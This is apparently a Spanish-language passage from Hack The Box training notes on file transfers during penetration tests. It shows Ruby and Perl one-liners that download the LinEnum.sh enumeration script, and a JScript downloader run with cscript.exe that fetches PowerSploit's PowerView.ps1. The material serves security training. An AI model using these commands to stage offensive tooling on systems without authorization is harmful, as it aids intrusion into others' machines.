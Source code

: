 ### **Ruby - Descargar un archivo**

Transferir archivos con código

```
xnoxos@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

---

### **Perl - Descargar un archivo**

Transferir archivos con código

```
xnoxos@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

---

# **Javascript**

JavaScript es un lenguaje de secuencias de comandos o programación que le permite implementar características complejas en las páginas web. Al igual que con otros lenguajes de programación, podemos usarlo para muchas cosas diferentes.

El siguiente código JavaScript se basa en[este](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068)Publica, y podemos descargar un archivo usandolo. Crearemos un archivo llamado`wget.js`y guarde el siguiente contenido:

Código:javascript

```jsx
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));

```

Podemos usar el siguiente comando desde un símbolo del sistema de Windows o PowerShell Terminal para ejecutar nuestro código JavaScript y descargar un archivo.

### **Descargue un archivo usando JavaScript y cscript.exe**

Transferir archivos con código

```
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1

```

---